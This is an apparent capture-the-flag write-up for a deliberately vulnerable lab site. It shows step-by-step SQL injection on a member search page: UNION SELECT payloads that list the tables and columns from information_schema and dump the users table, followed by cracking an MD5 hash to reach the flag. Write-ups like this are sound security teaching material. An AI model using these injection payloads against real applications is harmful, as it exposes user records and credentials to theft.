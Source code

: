 First flag!

Resource used 
https://www.sqlinjection.net/column-names/

::Note::
In MySQL, the table information_schema.tables contains all the metadata related to table objects. Below is listed the most useful information of this table.

table_name: The name of the table.
column_name: The name of the column.
data_type: Specifies the data type (MySQL data type).
column_default: Default value inserted in the column.
is_nullable: Indicates whether the column can contain null or not.



1.) Navigate to the member page 

http://192.168.1.100/index.php?page=member


Now that we are on the page here we can try for simple sql Injection by passing 1 , 1=1 or even passing 1 or 1 = 1
In doing this we see that data is being returned from the database so we try to get data from the tables in the database using SQL injection

2.) Trying to exctract data from the database
--> Insert the following into the search bar to see the name of the table
''
-1  UNION SELECT  table_name, 1 FROM information_schema.tables where table_schema = database() 
''
after running that you find that the table name is 'users'

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
--> for Columns 
''
-1  UNION SELECT  column_name, 1 FROM information_schema.columns where table_schema = database() 
''
when we run that we get the following names back 

user_id
first_name
last_name
town
country 
planet
commentaire
countersign 

3.) Getting the users on the site from the information we have just gotten
''  
    -1 UNION SELECT null, concat (user_id,first_name,last_name,town,country ,planet,commentaire,countersign) from users 
''

Then we get the following in our results

ID: -1 union select null, concat (user_id, first_name, last_name, town, country, planet, commentaire, countersign) from users 
First name: 
Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28


4.) So from the surname property we see to decode the password using MD5 then lowercasing the password 

MD5 decrpyt result = FortyTwo
lowercased = fortytwo

After running sha 256 calculator on the lowercased result = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Well done we found the first flag!
